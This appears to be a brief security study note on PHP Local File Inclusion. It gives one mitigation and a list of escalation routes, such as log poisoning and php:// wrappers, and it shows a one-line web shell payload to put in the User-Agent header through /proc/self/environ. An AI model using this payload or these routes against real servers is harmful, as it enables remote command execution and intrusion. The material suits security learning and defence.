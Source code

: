 # LFI

LFI mitigiation:
~~~
open_basedir = On in php.ini

(if this is on, PHP can't access any file outside the specified directory) , essentially kills the purpose of include statements in other directories such as libraries)
~~~

Techniques which can be used to leverage LFI:
~~~
- /proc/self/environ
- /proc/self/fd
- /var/log/apache2/access.log
- /var/log/auth.log
- php://input wrapper
- php://filter wrapper
- data:wrapper
~~~


## /proc/self/environ

Contains environment variables
   - REMOTE_PORT
   - HTTP_USER_AGENT
   - etc

`SHOULD NOT BE ACCESSIBLE FROM NON-ROOT USERS`

Exploit:

Intercept request and edit the User-Agent, and replace with php executable code.

Example:
User-Agent: <?php system($_GET['cmd']); ?>

